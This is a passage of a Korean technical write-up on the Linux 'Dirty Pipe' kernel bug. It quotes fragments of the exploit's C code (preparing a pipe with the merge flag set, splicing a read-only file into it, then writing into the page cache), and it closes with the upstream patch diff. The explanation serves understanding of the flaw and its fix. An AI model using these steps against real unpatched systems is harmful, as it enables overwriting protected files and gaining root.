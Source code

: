 파이프를 만들고 모두 비움으로써 모든 파이프 버퍼의 플래그를 `PIPE_BUF_FLAG_CAN_MERGE`로 설정합니다.

이렇게 만들어지는 공격용 파이프는 `main` 함수에서 다음과 같이 사용됩니다.
```c
int main() {
  ...

	const int fd = open(path, O_RDONLY); // yes, read-only! :-)

  ...

  	/* create the pipe with all flags initialized with
	   PIPE_BUF_FLAG_CAN_MERGE */
	int p[2];
	prepare_pipe(p);

	/* splice one byte from before the specified offset into the
	   pipe; this will add a reference to the page cache, but
	   since copy_page_to_iter_pipe() does not initialize the
	   "flags", PIPE_BUF_FLAG_CAN_MERGE is still set */
	--offset;
	ssize_t nbytes = splice(fd, &offset, p[1], NULL, 1, 0);

  ...
}
```
`splice` 시스템 콜을 통해 file → pipe 형태의 연산으로 파이프에 읽기 전용 파일에 대한 참조가 생성됩니다.

즉, 파이프 버퍼에 읽기 전용 파일에 대한 포인터가 담기게됐고, 플래그는 초기화되지 않은 상태입니다.

파이프는 읽기 전용 페이지 캐시에 데이터를 쓸 수 있게 됐습니다. 따라서 다음과 같은 공격 코드로 원하는 데이터를 원하는 오프셋 지점부터 써넣습니다.
```c
/* the following write will not create a new pipe_buffer, but
	   will instead write into the page cache, because of the
	   PIPE_BUF_FLAG_CAN_MERGE flag */
	nbytes = write(p[1], data, data_size);
```

# Patch

patch 내용은 <a href="https://lore.kernel.org/lkml/20220221100313.1504449-1-max.kellermann@ionos.com/">이곳</a>에서 확인할 수 있습니다.

```diff
--- a/lib/iov_iter.c
+++ b/lib/iov_iter.c
@@ -414,6 +414,7 @@ static size_t copy_page_to_iter_pipe(struct page *page, size_t offset, size_t by
 		return 0;
 
 	buf->ops = &page_cache_pipe_buf_ops;
+	buf->flags = 0;
 	get_page(page);
 	buf->page = page;
 	buf->offset = offset;
@@ -577,6 +578,7 @@ static size_t push_pipe(struct iov_iter *i, size_t size,
 			break;
 
 		buf->ops = &default_pipe_buf_ops;
+		buf->flags = 0;
 		buf->page = page;
 		buf->offset = 0;
 		buf->len = min_t(ssize_t, left, PAGE_SIZE);
```
